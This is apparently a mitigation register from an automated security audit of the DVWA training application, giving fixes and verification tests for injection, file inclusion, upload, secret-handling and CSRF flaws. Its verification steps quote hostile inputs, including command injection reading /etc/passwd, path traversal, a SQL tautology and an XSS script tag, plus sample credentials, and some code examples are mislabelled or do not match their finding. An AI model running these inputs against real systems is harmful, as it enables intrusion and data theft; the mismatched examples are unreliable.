## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>● [M-001](#m-001) — Centralized input validation and output encoding layer<br/>● [M-003](#m-003) — Use parameterized database queries<br/>● [M-004](#m-004) — Restrict file inclusion to an explicit allowlist of permitted page…<br/>● [M-005](#m-005) — Enforce MIME type allowlist and rename uploaded files before storing…<br/>● [M-049](#m-049) — Remove server-side evaluation of untrusted input<br/>◕ [M-002](#m-002) — Establish automated dependency scanning and update SLA<br/>◕ [M-006](#m-006) — Move secrets to a managed secret store<br/>◕ [M-007](#m-007) — Move cryptographic keys to a managed secret store<br/>◕ [M-008](#m-008) — Move secrets to a managed secret store<br/>◕ [M-009](#m-009) — Remove `DISABLE_AUTHENTICATION` code path from non-development builds<br/>◕ [M-010](#m-010) — Rotate the session identifier on authentication<br/>◕ [M-011](#m-011) — Avoid the shell; if unavoidable, escapeshellarg every dynamic argument<br/>◕ [M-012](#m-012) — Use parameterized database queries<br/>◕ [M-013](#m-013) — Set least-privilege CI workflow permissions<br/>◕ [M-014](#m-014) — Drop unnecessary privileges in build and runtime<br/>◕ [M-015](#m-015) — Enforce server-side authorization on every endpoint<br/>◕ [M-016](#m-016) — Encode output instead of bypassing the framework sanitizer<br/>◕ [M-017](#m-017) — Add anti-CSRF protection to state-changing requests<br/>◕ [M-018](#m-018) — Store security level server-side in the PHP session, not in a…<br/>◕ [M-019](#m-019) — Add security audit logging<br/>◕ [M-020](#m-020) — Apply least-privilege permissions<br/>◕ [M-021](#m-021) — Pin third-party dependencies to immutable versions<br/>◕ [M-022](#m-022) — Pin the container base image to an immutable digest<br/>◕ [M-023](#m-023) — Pin the container base image to an immutable digest<br/>◕ [M-024](#m-024) — Stop storing sensitive data in cleartext<br/>◕ [M-025](#m-025) — Hash pass**** (8 chars)s with a strong, salted algorithm<br/>◕ [M-026](#m-026) — Stop exposing internal information to clients<br/>◕ [M-027](#m-027) — Return generic error messages to clients<br/>◕ [M-028](#m-028) — Set HttpOnly, Secure, and SameSite=Strict on the session cookie at all…<br/>◕ [M-029](#m-029) — Add Content-Security-Policy, X-Frame-Options, X-Content-Type-Options…<br/>◕ [M-030](#m-030) — Move secrets to a managed secret store<br/>◕ [M-031](#m-031) — Rate-limit and lock out repeated authentication attempts<br/>◕ [M-032](#m-032) — Rate-limit and lock out repeated authentication attempts<br/>◕ [M-033](#m-033) — Drop unnecessary privileges in build and runtime<br/>◕ [M-034](#m-034) — Move secrets to a managed secret store<br/>◕ [M-035](#m-035) — Enforce server-side authorization on every endpoint<br/>◕ [M-036](#m-036) — Require authentication on every exposed endpoint<br/>◕ [M-037](#m-037) — Hash pass**** (8 chars)s with a strong, salted algorithm<br/>◑ [M-038](#m-038) — Validate redirect targets against an allowlist<br/>◑ [M-039](#m-039) — Use modern cryptographic hash and KDF algorithms<br/>◑ [M-040](#m-040) — Sign container images with cosign and generate SLSA provenance on…<br/>◑ [M-041](#m-041) — Add security audit logging<br/>◑ [M-042](#m-042) — Add security audit logging<br/>◑ [M-043](#m-043) — Drop unnecessary privileges in build and runtime<br/>◑ [M-044](#m-044) — Sign and verify release artifacts<br/>◑ [M-045](#m-045) — Apply least-privilege permissions<br/>◑ [M-046](#m-046) — Stop exposing internal information to clients<br/>◑ [M-047](#m-047) — Restrict CORS to trusted origins<br/>◑ [M-048](#m-048) — Use cryptographically secure random values

### P1 — Immediate

<a id="m-001"></a>
#### M-001 — Centralized input validation and output encoding layer

**Addresses:**

- 🔴 [F-001](#f-001) — OS Command Injection (`HealthController.php:88`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/api/src/HealthController.php:88`

**How:**

1. Replace `exec("ping -c 4 " . $target)` with exec("ping -c 4 " . `escapeshellarg($target)`); this prevents shell metacharacter injection as an immediate fix.
2. Add an allowlist validation step before the exec call: restrict \$target to hostnames matching a predefined pattern (e.g., alphanumeric plus hyphens and dots only) and reject anything else with HTTP 422.
3. Require bearer token authentication on the `/health/connectivity` endpoint if it must remain accessible at all; consider removing it from the training API unless the command injection is the intentional lesson.

_Example implementation in `vulnerabilities/api/src/HealthController.php:88`: it applies **Centralized input validation and output encoding layer**. The ordered steps above remain authoritative._

```javascript
// Before (HealthController.php:88)
exec ("ping -c 4 " . $target, $output, $ret_var);

// After
if (!preg_match('/^[a-zA-Z0-9\-.]+$/', $target)) {
    // reject — non-allowlisted characters
    $response['status_code_header'] = 'HTTP/1.1 422 Unprocessable Entity';
    return $response;
}
exec("ping -c 4 " . escapeshellarg($target), $output, $ret_var);
```

**Verification:** Send `POST /api/v2/health/connectivity` with body `{"target": "127.0.0.1; cat /etc/passwd"}` and confirm the response is HTTP 422 with no file content returned.

**Reference:** [CWE-78: Improper Neutralization of Special Elements used in an OS Command (OS Command Injection)](https://cwe.mitre.org/data/definitions/78.html)

---

<a id="m-003"></a>
#### M-003 — Use parameterized database queries

**Addresses:**

- 🔴 [F-003](#f-003) — SQL Injection (`low.php:10`)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/sqli/source/low.php:10`

**How:**

1. Replace `mysqli_query()` + string interpolation with a PDO prepared statement using a named or positional placeholder.
2. Bind `$_REQUEST['id']` as a typed parameter (PDO::`PARAM_INT` for numeric IDs) via `$stmt->bindValue()`.
3. Remove the `or die(mysqli_error(...))` error handler; log errors server-side and return a generic message to the client.

_Example implementation in `vulnerabilities/sqli/source/low.php:10`: it applies **Use parameterized database queries**. The ordered steps above remain authoritative._

```javascript
// Before (line 10):
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

// After:
$stmt = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id');
$stmt->bindValue(':id', $id, PDO::PARAM_INT);
$stmt->execute();
$rows = $stmt->fetchAll(PDO::FETCH_ASSOC);
```

**Verification:** Submit `id=1' OR '1'='1` and confirm the query returns exactly one row (user ID 1), not all rows.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-004"></a>
#### M-004 — Restrict file inclusion to an explicit allowlist of permitted page filenames

**Addresses:**

- 🔴 [F-004](#f-004) — Local and Remote File Inclusion (`index.php:36`)

**Prevents CWEs:**

- [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/fi/index.php:36`

**How:**

1. Replace the unrestricted `include($file)` with a lookup against a hard-coded array of allowed page filenames (e.g. `['include.php', 'file1.php']`).
2. Reject any `page` parameter value not found in the allowlist and return HTTP 400.
3. Set `allow_url_include=Off` in `php.ini` to prevent remote file inclusion regardless of input validation.

_Example implementation in `vulnerabilities/fi/index.php:36`: it applies **Restrict file inclusion to an explicit allowlist of permitted page filenames**. The ordered steps above remain authoritative._

```javascript
// Safe: allowlist only (mirrors the impossible level pattern)
$allowed_pages = ['include.php', 'file1.php', 'file2.php', 'file3.php'];
$page = $_GET['page'] ?? '';
if (!in_array($page, $allowed_pages, true)) {
    http_response_code(400);
    exit('Page not found.');
}
include($page);
```

**Verification:** Request `?page=../../../../etc/passwd` and confirm the server returns HTTP 400; confirm `?page=include.php` still renders the expected content.

**Reference:** [CWE-98](https://cwe.mitre.org/data/definitions/98.html)

---

<a id="m-005"></a>
#### M-005 — Enforce MIME type allowlist and rename uploaded files before storing in web-acc…

**Addresses:**

- 🔴 [F-005](#f-005) — Unrestricted File Upload to Web-Accessible Directory (`low.php:9`)

**Prevents CWEs:**

- [CWE-434](https://cwe.mitre.org/data/definitions/434.html) - Unrestricted Upload of File with Dangerous Type

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `vulnerabilities/upload/source/low.php:9`

**How:**

1. Validate the uploaded file's MIME type using `finfo_file()` (not `$_FILES['type']`, which is client-supplied) and reject anything not in `['image/jpeg','image/png','image/gif']`.
2. Reject any filename whose extension (after stripping all dots) is in a denylist of executable extensions (`php`, `phtml`, `php3`, `shtml`).
3. Rename the stored file to a random name without an extension (or append `.noexec`) and configure the uploads directory with `php_admin_flag engine Off` in `.htaccess` to prevent PHP execution.
4. Serve uploaded files through a PHP controller that reads the file and returns it with the correct content-type, rather than exposing the directory directly.

_Example implementation in `vulnerabilities/upload/source/low.php:9`: it applies **Enforce MIME type allowlist and rename uploaded files before storing in web-acc…**. The ordered steps above remain authoritative._

```typescript
// Validate MIME, extension, and magic bytes; cap size.
const ALLOWED = new Set(['image/png', 'image/jpeg'])
if (!ALLOWED.has(file.mimetype)) throw new Error('mime not allowed')
if (file.size > 2 * 1024 * 1024) throw new Error('too large')
```

**Verification:** Upload `shell.php`; confirm the server rejects it (HTTP 400) or renames it to a non-executable name; confirm a request to `hackable/uploads/shell.php` returns 404 or the raw file bytes, not PHP execution.

**Reference:** [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

<a id="m-049"></a>
#### M-049 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-061](#f-061) — User-controlled input reaches a server-side execution sink (`low.php:14`)

**Prevents CWEs:**

- [CWE-94](https://cwe.mitre.org/data/definitions/94.html) - Code Injection

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `vulnerabilities/exec/source/low.php:14`

**How:** Eliminate eval-like execution and unsafe deserialization; use fixed allowlisted operations and data-only template handling.

1. Remove dynamic server-side code execution
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `vulnerabilities/exec/source/low.php:14`: it applies **Remove server-side evaluation of untrusted input**. The ordered steps above remain authoritative._

```javascript
// Replace `eval()` / sandbox with a strict whitelist parser.
import { evaluate } from 'mathjs'
const allowed = /^[\d+\-*/().\s]+$/
if (!allowed.test(expr)) throw new Error('invalid expression')
return evaluate(expr)
```

**Verification:** Re-run the security scan; the CWE-94 finding at `vulnerabilities/exec/source/low.php:14` is cleared, and the regression test passes.

---

### P2 — This Sprint

<a id="m-002"></a>
#### M-002 — Establish automated dependency scanning and update SLA

**Addresses:**

- 🔴 [F-002](#f-002) — OS Command Injection (`low.php:10`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/exec/source/low.php:10`

**How:**

1. Validate `$target` against a strict IP address regex (`/^(\d{1,3}\.){3}\d{1,3}$/`) and reject any value that does not match before invoking the ping command.
2. Replace `shell_exec()` with `proc_open()` using an array-style command argument list, eliminating shell metacharacter interpretation entirely.
3. Use `escapeshellarg($target)` as the minimum safeguard when shell invocation cannot be avoided.

_Example implementation in `vulnerabilities/exec/source/low.php:10`: it applies **Establish automated dependency scanning and update SLA**. The ordered steps above remain authoritative._

```javascript
// Safe: array-style invocation prevents shell metacharacter injection
if (!filter_var($target, FILTER_VALIDATE_IP)) {
    $html .= '<pre>Invalid IP address.</pre>';
    return;
}
$output = [];
exec('ping -c 4 ' . escapeshellarg($target), $output);
$html .= '<pre>' . htmlspecialchars(implode("\n", $output)) . '</pre>';
```

**Verification:** POST `ip=127.0.0.1; id` and confirm the response shows only the ping output with no `uid=` line from the injected `id` command.

**Reference:** [CWE-78: Improper Neutralization of Special Elements used in an OS Command (OS Command Injection)](https://cwe.mitre.org/data/definitions/78.html)

---

<a id="m-006"></a>
#### M-006 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-006](#f-006) — Hardcoded Database Credentials in compose\.yml Enable Unauthenticated Access (`compose.yml:31`)

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `compose.yml:31`

**How:**

1. Remove `MYSQL_ROOT_PASSWORD`, `MYSQL_USER`, and `MYSQL_PASSWORD` from `compose.yml` and replace them with Docker secrets or a .env file excluded from version control via .gitignore.
2. Generate strong, unique pass**** (8 chars)s using a CSPRNG (e.g., `openssl rand -base64 32`) for each deployment rather than shipping a fixed default.
3. Add a CI secret-scanning step (e.g., git-secrets, trufflehog) to block future credential commits.

_Example implementation in `compose.yml:31`: it applies **Move secrets to a managed secret store**. The ordered steps above remain authoritative._

```javascript
# compose.yml — Before
# environment:
#   - MYSQL_ROOT_PASSWORD=dvwa
#   - MYSQL_PASSWORD=p@ss**** (8 chars)

# After: use a .env file not committed to version control
services:
  db:
    env_file:
      - .env.db      # contains MYSQL_ROOT_PASSWORD and MYSQL_PASSWORD; listed in .gitignore
```

**Verification:** Run `git log -S 'p@ss**** (8 chars)' -- compose.yml` and confirm zero hits. Verify `docker inspect` on the db container does not expose the pass**** (8 chars) in its environment block when using Docker secrets.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-007"></a>
#### M-007 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key (`Login.php:10`)

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-321](https://cwe.mitre.org/data/definitions/321.html) - Use of Hard-coded Cryptographic Key

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/api/src/Login.php:10`

**How:**

1. Remove `LOGIN_ACCESS_TOKEN_SECRET`, `REFRESH_TOKEN_SECRET`, and `ENCRYPTION_KEY` constants from `Login.php` and `Token.php`; replace with `getenv()` or a config provider that reads from environment variables set outside the codebase.
2. Rotate all three secrets immediately; existing issued tokens become invalid and users must re-authenticate.
3. Add a startup assertion that fails if any of the three environment variables is empty or retains a known-bad default value.

_Example implementation in `vulnerabilities/api/src/Login.php:10`: it applies **Move cryptographic keys to a managed secret store**. The ordered steps above remain authoritative._

```javascript
// Before (Login.php:10)
private const ACCESS_TOKEN_SECRET = "12345";

// After
private static function accessTokenSecret(): string {
    $s = getenv('API_ACCESS_TOKEN_SECRET');
    if (!$s) throw new \RuntimeException('API_ACCESS_TOKEN_SECRET not set');
    return $s;
}
```

**Verification:** Set `API_ACCESS_TOKEN_SECRET` to a random 32-byte value; craft a token using the old secret "12345"; confirm the endpoint returns HTTP 401 when the forged token is submitted.

**Reference:** [CWE-321: Use of Hard-coded Cryptographic Key](https://cwe.mitre.org/data/definitions/321.html)

---

<a id="m-008"></a>
#### M-008 — Move secrets to a managed secret store

**Addresses:**

- 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials (`LoginController.php:60`)

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/api/src/LoginController.php:60`

**How:**

1. Remove the literal credential comparisons; replace with a database or environment-variable-driven authentication function that performs pass**** (8 chars) hashing verification.
2. Move the OAuth2 `client_id` and `client_secret` to environment variables; validate at startup that they are set to non-default values.
3. Rotate all credentials; existing sessions remain valid until expiry.

_Example implementation in `vulnerabilities/api/src/LoginController.php:60`: it applies **Move secrets to a managed secret store**. The ordered steps above remain authoritative._

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = process.env.ORDER_HMAC_KEY
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** After rotation, confirm that `POST /api/v2/login/login` with body `{"username":"mrbennett","pass**** (8 chars)":"becareful"}` returns HTTP 401.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-009"></a>
#### M-009 — Remove DISABLE_AUTHENTICATION code path from non-development builds

**Addresses:**

- 🟠 [F-009](#f-009) — Authentication Bypass via `DISABLE_AUTHENTICATION` Flag (`dvwaPage.inc.php:149`)

**Prevents CWEs:**

- [CWE-288](https://cwe.mitre.org/data/definitions/288.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `dvwa/includes/dvwaPage.inc.php:149`

**How:**

1. Remove or gate the `disable_authentication` check in `dvwaIsLoggedIn()` and `checkToken()` behind a compile-time flag that is absent in production builds.
2. If the bypass is needed for automated testing, implement it as a test-only conditional that fails closed in any environment where `APP_ENV != 'test'`.
3. Add a startup assertion that aborts when `DISABLE_AUTHENTICATION=true` and the application is bound to a non-loopback interface.

**Verification:** Set `DISABLE_AUTHENTICATION=true`; confirm the application refuses to start (or rejects all requests) when bound to a public interface.

**Reference:** [CWE-288](https://cwe.mitre.org/data/definitions/288.html)

---

<a id="m-010"></a>
#### M-010 — Rotate the session identifier on authentication

**Addresses:**

- 🟠 [F-010](#f-010) — Session Fixation (`dvwaPage.inc.php:102`)

**Prevents CWEs:**

- [CWE-384](https://cwe.mitre.org/data/definitions/384.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `dvwa/includes/dvwaPage.inc.php:102`

**How:**

1. In `dvwaPage.inc.php:dvwa_start_session()`, replace the branch that calls `session_id($_COOKIE[session_name()])` with unconditional `session_regenerate_id(true)` at all security levels.
2. Set the `delete_old_session` parameter to `true` in `session_regenerate_id(true)` to invalidate the prior session server-side.
3. Add a `session_start()` call before `session_regenerate_id()` when no session is active.

_Example implementation in `dvwa/includes/dvwaPage.inc.php:102`: it applies **Rotate the session identifier on authentication**. The ordered steps above remain authoritative._

```javascript
// Before (low/medium/high — line 102):
if (isset($_COOKIE[session_name()]))
    session_id($_COOKIE[session_name()]);
session_start();

// After (all levels):
session_start();
session_regenerate_id(true); // invalidates old ID, issues new one
```

**Verification:** Set `security=low` cookie; set a custom `PHPSESSID=attackerknownid`; submit valid credentials; verify the post-login `Set-Cookie` contains a new, different `PHPSESSID` value.

**Reference:** [CWE-384](https://cwe.mitre.org/data/definitions/384.html)

---

<a id="m-011"></a>
#### M-011 — Avoid the shell; if unavoidable, escapeshellarg every dynamic argument

**Addresses:**

- 🟠 [F-012](#f-012) — OS Command Injection (`HealthController.php:88`)

**Prevents CWEs:**

- [CWE-78](https://cwe.mitre.org/data/definitions/78.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/api/src/HealthController.php:88`

**How:** Avoid the shell; if unavoidable, escapeshellarg every dynamic argument.

1. Avoid the shell; if unavoidable, escapeshellarg every dynamic argument.
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the INJ-PHP-002 scanner check; it reports no match at `vulnerabilities/api/src/HealthController.php:88`, and the regression test passes.

---

<a id="m-012"></a>
#### M-012 — Use parameterized database queries

**Addresses:**

- 🔴 [F-013](#f-013) — SQL Injection (`MySQL.php:37`)

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `dvwa/includes/DBMS/MySQL.php:37`

**How:** Use prepared statements…

1. Use prepared statements (PDO `bindParam` / mysqli placeholders / Eloquent bindings).
2. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Example implementation in `dvwa/includes/DBMS/MySQL.php:37`: it applies **Use parameterized database queries**. The ordered steps above remain authoritative._

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND pass**** (8 chars) = :pass**** (8 chars)',
  { replacements: { email, pass**** (8 chars): hash(pass**** (8 chars)) }, type: QueryTypes.SELECT }
)
```

**Verification:** Re-run the INJ-PHP-001 scanner check; it reports no match at `dvwa/includes/DBMS/MySQL.php:37`, and the regression test passes.

---

<a id="m-013"></a>
#### M-013 — Set least-privilege CI workflow permissions

**Addresses:**

- 🟠 [F-014](#f-014) — Unpinned GitHub Actions allow supply-chain code injection (.github/workflows) (`docker-image.yml:13`)

**Weaknesses addressed:** [W-002](#w-002)

**Prevents CWEs:**

- [CWE-1357](https://cwe.mitre.org/data/definitions/1357.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/docker-image.yml:13`

**How:**

1. For every `uses:` reference in `.github/workflows/*.yml`, replace the version tag with the full `SHA-256` commit digest, e.g. `actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683` (SHA for v4.2.2).
2. Add a comment on the same line documenting the human-readable version tag: `# v4.2.2`.
3. Adopt a tool such as `pin-github-actions` (Mheads Labs) or Dependabot's `update-actions` to automate discovery and periodic SHA refresh.
4. Enable Dependabot for GitHub Actions (`dependabot.yml` package-ecosystem: 'github-actions') to receive automated PRs when upstream releases new versions.

_Example implementation in `.github/workflows/docker-image.yml:13`: it applies **Set least-privilege CI workflow permissions**. The ordered steps above remain authoritative._

```javascript
# Before (mutable tag — unsafe):
- uses: actions/checkout@v6.0.2

# After (immutable SHA pin — safe):
- uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683  # v4.2.2
```

**Verification:** Run `grep -r 'uses:' .github/workflows/ | grep -v '@[0-9a-f]\{40\}'` - zero output confirms all actions are SHA-pinned.

**Reference:** [CWE-1357: Reliance on Insufficiently Trustworthy Component](https://cwe.mitre.org/data/definitions/1357.html)

---

<a id="m-014"></a>
#### M-014 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-015](#f-015) — Overprivileged 'dvwa' DB User Has DDL Permissions (`bac_setup.sql:27`)

**Prevents CWEs:**

- [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `database/bac_setup.sql:27`

**How:**

1. Create a dedicated setup user with DDL privileges (GRANT CREATE, DROP, ALTER ON dvwa.* TO 'dvwa_setup'@'%') and restrict the runtime 'dvwa' user to DML only: `GRANT SELECT, INSERT, UPDATE, DELETE ON dvwa.* TO 'dvwa'@'%';`
2. Revoke all DDL grants from the 'dvwa' runtime user with `REVOKE ALL PRIVILEGES ON dvwa.* FROM 'dvwa'@'%``'; GRANT SELECT, INSERT, UPDATE, DELETE ON dvwa.* TO '``dvwa'@'%'; FLUSH PRIVILEGES;`
3. Run schema migrations (`bac_setup.sql` and similar) using the privileged setup user only at container startup, not through the runtime credential.

_Example implementation in `database/bac_setup.sql:27`: it applies **Drop unnecessary privileges in build and runtime**. The ordered steps above remain authoritative._

```javascript
-- Grant least-privilege to runtime user
REVOKE ALL PRIVILEGES ON dvwa.* FROM 'dvwa'@'%';
GRANT SELECT, INSERT, UPDATE, DELETE ON dvwa.* TO 'dvwa'@'%';
FLUSH PRIVILEGES;

-- Separate setup credential (used only in entrypoint / setup.php)
CREATE USER 'dvwa_setup'@'%' IDENTIFIED BY '<strong-random-pass**** (8 chars)>';
GRANT ALL PRIVILEGES ON dvwa.* TO 'dvwa_setup'@'%';
```

**Verification:** Connect as 'dvwa' user and run `ALTER TABLE users ADD COLUMN test_col TEXT;` - confirm it fails with ERROR 1142 (42000): ALTER command denied.

**Reference:** [CWE-250](https://cwe.mitre.org/data/definitions/250.html)

---

<a id="m-015"></a>
#### M-015 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-016](#f-016) — Missing Authentication on User CRUD Endpoints (`UserController.php:265`)

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/api/src/UserController.php:265`

**How:**

1. Add a private `checkToken()` method to UserController identical to the one in OrderController (copies Login::`check_access_token` on the Authorization header).
2. Call `checkToken()` at the top of each operation method (`getUser`, `getAllUsers`, `addUser`, `updateUser`, `deleteUser`) and return HTTP 401 on failure.
3. Add integration tests that confirm each user endpoint returns 401 without a valid bearer token.

_Example implementation in `vulnerabilities/api/src/UserController.php:265`: it applies **Enforce server-side authorization on every endpoint**. The ordered steps above remain authoritative._

```javascript
// Add to UserController — mirrors OrderController:24-36
private function checkToken() {
    if (array_key_exists("HTTP_AUTHORIZATION", $_SERVER)) {
        $header = $_SERVER['HTTP_AUTHORIZATION'];
        $bits = explode(" ", $header);
        if (count($bits) == 2 && strtolower($bits[0]) == "bearer") {
            return Login::check_access_token($bits[1]);
        }
    }
    return false;
}
```

**Verification:** Send `GET /api/v2/user/` without an Authorization header and confirm the response is HTTP 401; repeat with a valid token and confirm 200.

**Reference:** [CWE-862: Missing Authorization](https://cwe.mitre.org/data/definitions/862.html)

---

<a id="m-016"></a>
#### M-016 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-017](#f-017) — Cross-Site Scripting (XSS) (`low.php:16`)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/xss_s/source/low.php:16`

**How:**

1. In `dvwaPage.inc.php:dvwaGuestbook()`, apply `htmlspecialchars($row[0], ENT_QUOTES, 'UTF-8')` and `htmlspecialchars($row[1], ENT_QUOTES, 'UTF-8')` at all security levels, not only at impossible.
2. Add `htmlspecialchars()` to the `$name` and `$message` values before inserting them into the SQL query, or use PDO prepared statements and sanitize on output.
3. Deploy a Content Security Policy header that disallows inline scripts to reduce XSS impact depth even if output encoding is missed elsewhere.

_Example implementation in `vulnerabilities/xss_s/source/low.php:16`: it applies **Encode output instead of bypassing the framework sanitizer**. The ordered steps above remain authoritative._

```javascript
// dvwaPage.inc.php — apply unconditionally, not inside the impossible-level branch:
$name    = htmlspecialchars($row[0], ENT_QUOTES, 'UTF-8');
$comment = htmlspecialchars($row[1], ENT_QUOTES, 'UTF-8');
```

**Verification:** POST `txtName=<script>alert(1)</script>&mtxMessage=test`; reload the guestbook page and confirm the browser shows the literal tag text rather than executing the script.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-017"></a>
#### M-017 — Add anti-CSRF protection to state-changing requests

**Addresses:**

- 🟠 [F-018](#f-018) — CSRF on Password Change via GET (`low.php:3`)

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/csrf/source/low.php:3`

**How:**

1. Change the pass**** (8 chars) update endpoint to accept only POST requests; discard GET-based state changes.
2. Add `checkToken($_REQUEST['user_token'], $_SESSION['session_token'], 'vulnerabilities/csrf/')` at the start of the handler to validate a DVWA synchronizer token.
3. Set the session cookie's `SameSite=Strict` attribute at all security levels (currently only at impossible in `dvwaPage.inc.php:53`), which would prevent cross-site cookie submission regardless of CSRF token status.

_Example implementation in `vulnerabilities/csrf/source/low.php:3`: it applies **Add anti-CSRF protection to state-changing requests**. The ordered steps above remain authoritative._

```typescript
// Use double-submit cookie / SameSite=Strict for state-changing routes.
app.use(csrf({ cookie: { sameSite: 'strict', httpOnly: true, secure: true } }))
```

**Verification:** From a separate origin, embed ``; confirm the request returns HTTP 403 or the pass**** (8 chars) is unchanged.

**Reference:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

---

<a id="m-018"></a>
#### M-018 — Store security level server-side in the PHP session, not in a client-controlled…

**Addresses:**

- 🟠 [F-019](#f-019) — Client-Controlled Security Level Bypasses All Module Protections (`dvwaPage.inc.php:204`)

**Prevents CWEs:**

- [CWE-565](https://cwe.mitre.org/data/definitions/565.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `dvwa/includes/dvwaPage.inc.php:204`

**How:**

1. Store the operator-configured security level in `$_SESSION['dvwa']['security_level']` on the server side at login time.
2. Replace the `$_COOKIE['security']` read in `dvwaSecurityLevelGet()` with a `$_SESSION['dvwa']['security_level']` read.
3. Keep the cookie only as a display hint (no security consequence); write it server-side via `setcookie()` without trusting its value on return.
4. Expose a server-authenticated UI control (`security.php`) that writes the new level to the session only if the requesting user has the admin role.

**Verification:** Set `security=low` cookie while the server session holds `security_level=high`; confirm all module requests use high-level protections.

**Reference:** [CWE-565](https://cwe.mitre.org/data/definitions/565.html)

---

<a id="m-019"></a>
#### M-019 — Add security audit logging

**Addresses:**

- 🟠 [F-020](#f-020) — Missing Security Event Audit Logging (`LoginController.php:75`)

**Prevents CWEs:**

- [CWE-778](https://cwe.mitre.org/data/definitions/778.html) - Insufficient Logging

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/api/src/LoginController.php:75`

**How:**

1. Add a logging dependency (e.g., Monolog via Composer) and configure an append-only log channel writing to a file outside the web root or to syslog.
2. Log authentication events with outcome, client IP, and username (not pass**** (8 chars)): login success, login failure, token refresh, and token validation failure.
3. Log all user resource mutations (create, update, delete) with actor identity, resource ID, and changed fields; log all connectivity health checks with the supplied target value.

_Example implementation in `vulnerabilities/api/src/LoginController.php:75`: it applies **Add security audit logging**. The ordered steps above remain authoritative._

```typescript
// Log authn / authz outcomes with stable correlation ids.
logger.info({ event: 'auth.login.fail', userId, ip: req.ip, reqId })
logger.info({ event: 'authz.deny', userId, route: req.path, reqId })
```

**Verification:** Attempt a login with wrong credentials and confirm a WARN-level entry appears in the security log containing the username and client IP within 1 second.

**Reference:** [CWE-778: Insufficient Logging](https://cwe.mitre.org/data/definitions/778.html)

---

<a id="m-020"></a>
#### M-020 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-021](#f-021) — GitHub Actions workflow-level permissions block (`docker-image.yml:1`)

**Prevents CWEs:**

- [CWE-732](https://cwe.mitre.org/data/definitions/732.html)

